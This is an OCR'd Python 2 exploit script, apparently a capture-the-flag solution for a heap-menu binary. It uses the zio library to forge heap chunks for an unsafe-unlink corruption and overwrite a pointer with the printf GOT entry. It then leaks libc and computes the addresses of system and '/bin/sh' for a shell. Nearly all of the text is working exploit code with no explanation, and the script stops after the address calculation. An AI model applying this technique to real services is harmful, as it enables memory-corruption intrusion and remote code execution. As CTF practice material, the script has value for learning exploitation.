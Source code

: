```python
    io.writeline('1')

def new(size, buf=None):
    global io
    io.writelines(['2', str(size)])
    io.write(buf if buf else NOPS(size))

def edit(index, size=None, buf=None):
    global io
    if buf is None:
        io.writelines(['3', str(index), str(size)])
        io.write(NOPS(size))
    else:
        io.writelines(['3', str(index), str(len(buf))])
        io.write(buf)

def delete(index):
    global io
    io.writelines(['4', str(index)])


io = zio.zio(TARGET)

new(0x100) # id = 0
new(0x100) # id = 1
new(0x10) # id = 2
new(0x10) # id = 3
new(0x200) # id = 4

payload = zio.l64(0x100)
payload += zio.l64(0x100)
payload += zio.l64(0x6016C0 + 0x28 - 0x18)
payload += zio.l64(0x6016C0 + 0x28 - 0x10)
payload += zio.l64(0) * 2
edit(1, buf=payload)

payload = NOPS(0x10)
payload += zio.l64(0x20 + 0x100)
payload += zio.l64(0x100)
payload += zio.l64(0) * 4
payload += NOPS(0x100 - 0x30)
payload += zio.l64(0x30)
payload += zio.l64(0x21)
payload += zio.l64(0) * 2
payload += zio.l64(0x20)
payload += zio.l64(0x21)
edit(2, buf=payload)

delete(3)

edit(1, buf=zio.l64(GOT_PRINTF))
list_sc()
io.read_until('SHELLC0DE 0: ')
printf_addr = zio.l64(zio.UNHEX(io.read(16)))

libc_addr = printf_addr - LIBC_PRINTF
system_addr = libc_addr + LIBC_SYSTEM
binsh_addr = libc_addr + LIBC_BINSH

print hex(printf_addr)
print hex(system_addr)
print hex(binsh_addr)

```